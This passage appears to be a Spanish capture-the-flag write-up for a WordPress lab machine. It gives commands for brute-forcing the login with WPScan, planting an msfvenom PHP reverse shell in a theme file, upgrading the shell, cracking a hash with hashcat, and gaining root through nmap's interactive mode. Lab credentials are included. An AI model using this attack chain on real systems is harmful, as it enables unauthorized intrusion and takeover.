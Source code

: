 ### 4. Fuerza Bruta con WPScan
```bash
wpscan --url http://10.10.75.121/wp-login.php -U elliot -P cleaned_dict.txt -t 30
```
**Credenciales comprometidas**:
- Usuario: elliot
- Contraseña: ER28-0652

## **Explotación Web**

### 5. Inyección PHP via Editor de Temas
```bash
msfvenom -p php/reverse_php LHOST=10.0.2.15 LPORT=443 -f raw > shell.php
```
**Método de ejecución**:
1. Editar 404.php en Appearance → Theme Editor
2. Acceder a ruta inexistente para trigger

## **Post-Explotación**

### 6. Tratamiento de Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 7. Crackeo de Hash MD5
```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
**Resultado**: 
- Hash: c3fcd3d76192e4007dfb496cca67e13b
- Password: abcdefghijklmnopqrstuvwxyz

### 8. Escalada Final con Nmap
```bash
nmap --interactive
nmap> !sh
whoami  # root
```

## **Conclusión Técnica**

### Matriz de Riesgos
| Vulnerabilidad | CVSS | Impacto |
|---------------|------|---------|
| Weak WordPress Credentials | 8.8 | Crítico |
| Unrestricted File Upload | 8.0 | Alto |
| Privilege Escalation via SUID | 7.8 | Alto |

